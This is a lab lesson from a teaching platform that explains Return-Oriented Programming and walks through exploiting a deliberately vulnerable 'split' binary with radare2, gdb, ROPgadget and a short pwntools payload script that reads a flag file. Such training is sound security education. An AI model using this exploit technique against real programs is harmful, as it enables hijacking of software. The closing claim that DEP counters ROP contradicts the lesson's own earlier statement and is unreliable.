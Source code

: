 ```yaml
---
title: "Introduction to ROP Attack"
teaching: 10
exercises: 30
questions:
- "What is ROP Attack?"
- "How to build the payload?"
- "What can users do to prevent ROP from happening"
objectives:
- "Successfully conduct a ROP Attack."
keypoints:
- "User needs to know the vulnerability of the ELF file provided and know how to build the payload"
---
```


## ROP Attack

- ROP stands for "Return-Oriented Programming" and is a type of attack that allows an attacker to take control of a program's execution flow by manipulating its stack.

- ROP attacks work by finding "gadgets" in the program's code, which are short sequences of instructions that end with a "return" instruction. By chaining these gadgets together, the attacker can construct a new program flow that achieves their desired outcome.

- ROP attacks are often used to bypass security measures like DEP (Data Execution Prevention) and ASLR (Address Space Layout Randomization), which are designed to prevent traditional buffer overflow attacks.

- ROP attacks can be difficult to defend against, as they don't rely on injecting code into the program's memory like traditional attacks do. Instead, they rely on using the program's own code against itself.


### Demonstration

The demonstration on CHEESEHub illustrates the ROP attack using one machines; 
1. We will  analyze the ELF File provided to know what's the vunerabilities of the program 
2. We will build the payload based on that. We verify the success of the attack by printing the flag.txt.

> ## prerequisites
> 
> You will need to conduct the Buffer Overflow attack prior to the ROP attack. If you're not familiar with it, you could refer to [Lesson: Introduction to Buffer Overflow Attack](https://github.com/cheese-hub/BufferOverflowAttack)
> You will need to know the knowledge of [Assembly Language](https://github.com/cheese-hub/ROP-Attack/blob/main/assembly%20language.md), [pwntools](https://github.com/cheese-hub/ROP-Attack/blob/main/pwntools.md), and [Radare2](https://github.com/cheese-hub/ROP-Attack/blob/main/r2.md) prior to the ROP Attack.
{: .prereq} 

> ## Getting Started
> 
> You will need to create an account on [CHEESEHub](https://www.hub.cheesehub.org) to work through this exercise.
> Each container in this demonstration has a web interface and is accessible through your web browser, no other special software 
> is needed.

We will start by first adding the ROP-Attack application:

figure to be shown

Next, click the *View* link to go to the application-specific page and start the application containers:

figure to be shown
> ## Container Launch Errors
>
> If a container fails to start, you will see a flashing warning icon next to the container's name. Take a look at the logs to 
> determine the cause of failure and try deleting the application and restarting.


Once all the containers have started, launch each container's web interface in a separate browser tab by clicking the icon 
next to the container's name.
## Let's get start it by building the image and running the docker container
Enter the directory and 
~~~
$docker run -it split bash
~~~


## Analyze the ELF File
~~~
r2 -AAAA split
~~~
Here is the figure of r2 -AAAA split
![image](https://user-images.githubusercontent.com/77866826/236359081-8598cb0f-7cbf-4f48-88f9-13d4d418f775.png)


~~~
iI
~~~
![1687247067908](https://github.com/cheese-hub/ROP-Attack/assets/77866826/f586264d-8424-4e85-a233-11704cd9b784)

Check the program's protections and find that NX is enabled.

## Find the vulnerabilities
using afl to list all the functions involved
![image](https://user-images.githubusercontent.com/77866826/236639496-5dfd204f-2e61-4b17-9268-729301bd083b.png)

After analyzing with r2, the main, pwnme, and usefulFunction functions were discovered.

![image](https://user-images.githubusercontent.com/77866826/236639532-2ac5cb20-5cac-4feb-b1d7-d53b9011bcf4.png)


3 figures of find functions
![image](https://user-images.githubusercontent.com/77866826/236639632-f297cf2f-d445-48f2-879e-0d8fd0bac1cb.png)

![image](https://user-images.githubusercontent.com/77866826/236639683-910e5cdc-e398-46dc-8965-84252d37e55d.png)

We can see in the pwnme function that there is a buffer with the size of 32 bytes but fgets allow to unput 96 bytes
So an overflow will happen and we can use as the start of the payload.
## Find the bytes needed to make an overflow
First we use gdb to analyse
![image](https://user-images.githubusercontent.com/77866826/236639994-7464498b-9e4d-41dd-934f-cd8d79f9c1c3.png)
And then we generate a random 100 bytes string as input
![image](https://user-images.githubusercontent.com/77866826/236640121-3db8cc3e-4a03-42bd-83a4-61fce5f4bb84.png)
![image](https://user-images.githubusercontent.com/77866826/236640208-bfcb716f-9e54-4283-a469-91a4f6a2d826.png)

And then we do pattern-search
![image](https://user-images.githubusercontent.com/77866826/236640243-48ba12fe-dcb0-493b-a5a2-1320aad20cc9.png)

We can tell in order to overflowrsp we need 40 bytes

## Back to usefulFunction to keep using r2.
![image](https://user-images.githubusercontent.com/77866826/236640293-c1c893e6-93a1-431f-9128-7613b5be80e1.png)

We can see that the usefulFunction is gonna to call system function with string '/bin/ls' as its parameter
After we run the program, we can see that '/bin/ls' is used.
But our goal is to use  '/bin/cat flag.txt' as its parameter so that we can print the flag. So keep searching the gadgets we want.



## Let's get back to r2 and use izz to list the string inside the ELF File.
![image](https://user-images.githubusercontent.com/77866826/236640330-8114d260-e81e-4237-a786-336c098c549d.png)
![image](https://user-images.githubusercontent.com/77866826/236640342-c90de3aa-5feb-4997-84b2-bde8b9276137.png)

We can see that there is a string that can print the flag:/bin/cat flag.txt

And the address of this string is 0x0001060.

## The idea came out!
Now we try to make an overflow and return to the address of system function after that and try to exec the system function with the parameter /bin/cat flag.txt. 
In order to do that,we need to pass the address of the string to RDI Register. 
We need ROPgadget to help us implement this because it can find related string in the file
!![image](https://user-images.githubusercontent.com/77866826/236640670-2d82c1f2-87ff-4c52-9c49-3f3b35b3a4cf.png)
![image](https://user-images.githubusercontent.com/77866826/236640501-3212fd1c-7e32-418c-b21d-15bb39fac710.png)
We can use" pop rdi : ret "to do make it as a gadget.
## Build and Analyze the code
~~~
from pwn import *

#create a process object and load the executable binary
p = process('./split')



#determine the offset to the return address on the stack
offset = 40

#retrieve the addresses of the desired functions/strings using the ELF object
ret_address = 0x00000000004007c3


#construct the payload by padding the offset with arbitrary characters
#then appending the address of the return instruction and the address of the system call with the argument of the flag file
payload = b'A' * offset + p64(ret_address) + p64(0x00601060) + p64(0x0040074b)

#send the payload to the process and get the result
p.sendline(payload)
p.interactive()
~~~

## Catch the Flag!!
![image](https://user-images.githubusercontent.com/77866826/236640607-854dac44-b55d-4f5d-afd6-9bc87cc344b4.png)

## Contermeasure?

> ## ROP Split Attack
> 
> We can use DEP as the countermeasure. Data Execution Prevention (DEP): DEP is a security feature that prevents the execution of code from memory pages that are marked as data. This can help prevent attackers from executing malicious code in the first place.


